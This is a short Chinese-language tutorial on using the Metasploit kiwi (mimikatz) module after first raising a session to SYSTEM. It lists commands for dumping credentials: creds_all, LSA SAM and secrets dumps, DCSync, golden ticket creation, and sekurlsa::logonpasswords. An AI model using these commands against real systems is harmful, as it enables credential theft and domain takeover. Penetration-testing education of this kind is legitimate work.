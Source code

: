 ## kiwi模块

使用kiwi模块需要system权限，所以我们在使用该模块之前需要将当前MSF中的shell提升为system。提到system有两个方法，一是当前的权限是administrator用户，二是利用其它手段先提权到administrator用户。然后administrator用户可以直接getsystem到system权限。

### kiwi模块使用

提权到system权限
进程迁移

```shell
加载kiwi模块
load kiwi

查看kiwi模块的使用
help kiwi

creds_all：列举所有凭据
creds_kerberos：列举所有kerberos凭据
creds_msv：列举所有msv凭据
creds_ssp：列举所有ssp凭据
creds_tspkg：列举所有tspkg凭据
creds_wdigest：列举所有wdigest凭据
dcsync：通过DCSync检索用户帐户信息
dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
golden_ticket_create：创建黄金票据
kerberos_ticket_list：列举kerberos票据
kerberos_ticket_purge：清除kerberos票据
kerberos_ticket_use：使用kerberos票据
kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
lsa_dump_sam：dump出lsa的SAM
lsa_dump_secrets：dump出lsa的密文
password_change：修改密码
wifi_list：列出当前用户的wifi配置文件
wifi_list_shared：列出共享wifi配置文件/编码

creds_all
#该命令可以列举系统中的明文密码

kiwi_cmd
kiwi_cmd 模块可以让我们使用mimikatz的全部功能，该命令后面接 mimikatz.exe 的命令
kiwi_cmd sekurlsa::logonpasswords
```

